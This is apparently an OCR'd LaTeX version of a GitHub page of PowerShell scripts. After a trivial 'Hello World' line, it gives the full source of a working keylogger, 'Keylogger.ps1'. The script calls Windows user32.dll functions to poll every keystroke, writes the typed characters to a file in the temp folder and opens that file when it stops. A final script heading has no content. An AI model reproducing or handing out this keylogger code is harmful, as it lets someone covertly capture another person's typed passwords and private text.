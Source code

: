 \documentclass{article}%
\begin{document}
\subsection{Scripts}
\hypertarget{script1}{\subsubsection{Simple script}}
\begin{verbatim}
Write-Host Hello World! -f red
\end{verbatim}
\hypertarget{script2}{\subsubsection{Keylogger.ps1}}
\begin{verbatim}
function Start-KeyLogger($Path="$env:temp\keylogger.txt")
{
  $signatures = @'
[DllImport("user32.dll", CharSet=CharSet.Auto, ExactSpelling=true)] 
public static extern short GetAsyncKeyState(int virtualKeyCode); 
[DllImport("user32.dll", CharSet=CharSet.Auto)]
public static extern int GetKeyboardState(byte[] keystate);
[DllImport("user32.dll", CharSet=CharSet.Auto)]
public static extern int MapVirtualKey(uint uCode, int uMapType);
[DllImport("user32.dll", CharSet=CharSet.Auto)]
public static extern int ToUnicode(uint wVirtKey, uint wScanCode,
	byte[] lpkeystate, System.Text.StringBuilder pwszBuff, int cchBuff, uint wFlags);
'@
  $API = Add-Type -MemberDefinition $signatures -Name 'Win32' -Namespace API -PassThru
  $null = New-Item -Path $Path -ItemType File -Force
  try
  {
    Write-Host 'Recording key presses. Press CTRL+C to see results.'
     -ForegroundColor Red
    while ($true) {
      Start-Sleep -Milliseconds 40
      for ($ascii = 9; $ascii -le 254; $ascii++) {
        $state = $API::GetAsyncKeyState($ascii)
        if ($state -eq -32767) {
          $null = [console]::CapsLock
          $virtualKey = $API::MapVirtualKey($ascii, 3)
          $kbstate = New-Object Byte[] 256
          $checkkbstate = $API::GetKeyboardState($kbstate)
          $mychar = New-Object -TypeName System.Text.StringBuilder
          $success = $API::ToUnicode($ascii, $virtualKey, $kbstate, $mychar,
          $mychar.Capacity, 0)
          if ($success) 
          {
            [System.IO.File]::AppendAllText($Path, $mychar, [
            System.Text.Encoding]::Unicode) 
          }
        }
      }
    }
  }
  finally
  {
    notepad $Path
  }
}
Start-KeyLogger
\end{verbatim}
\hypertarget{script3}{\subsubsection{Invoke-SuperScript.ps1}}
\end{document}
